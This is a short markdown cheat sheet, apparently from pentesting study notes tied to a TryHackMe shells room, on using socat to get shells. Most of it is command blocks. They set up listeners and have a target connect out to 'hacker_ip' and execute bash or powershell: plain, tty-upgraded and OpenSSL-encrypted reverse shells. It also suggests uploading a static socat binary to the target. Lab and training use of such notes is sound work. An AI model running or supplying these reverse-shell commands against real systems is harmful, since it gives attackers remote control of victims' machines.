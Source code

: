 # socat

[![introtoshells](../../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

socat is a command similar to netcat. Similarely to other wrappers, it can be used for a client or a server, but with socat, you will mostly use a wrapper for both sides.

➡️ Add `-d -d` for debug information.
</div><div>

🔥 On the target, you can upload a [static binary of socat](https://github.com/andrew-d/static-binaries/tree/master/binaries) as the command/executable is most likely not present.
</div></div>

<hr class="sep-both">

## TCP shell - stdin

<div class="row row-cols-md-2 mt-3"><div>

*Linux server*

```shell!
$ socat TCP-L:port -
$ socat TCP-LISTEN:port STDOUT # same
```
</div><div>

*Linux/Windows Client*

```ps
$ socat TCP:hacker_ip:port EXEC:"bash -li"
PS> socat TCP:hacker_ip:port EXEC:powershell.exe,pipes
```
</div></div>

<hr class="sep-both">

## TCP shell - tty

<div class="row row-cols-md-2 mt-3"><div>

*Linux server*

```shell!
$ socat TCP-L:port FILE:`tty`,raw,echo=0
```
</div><div>

*Linux client*

```ps
$ socat TCP:hacker_ip:port EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
</div></div>

<hr class="sep-both">

## Encrypted shell 🔥

<div class="row row-cols-md-2 mt-3"><div>

You first need to generate a certificate:

```ps
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
$ cat shell.key shell.crt > shell.pem
```
</div><div>

*Linux server*

```shell!
$ socat OPENSSL-LISTEN:port,cert=shell.pem,verify=0 [...]
```

*Linux client*

```ps
$ socat OPENSSL:hacker_ip:port,verify=0 [...]
```
</div></div>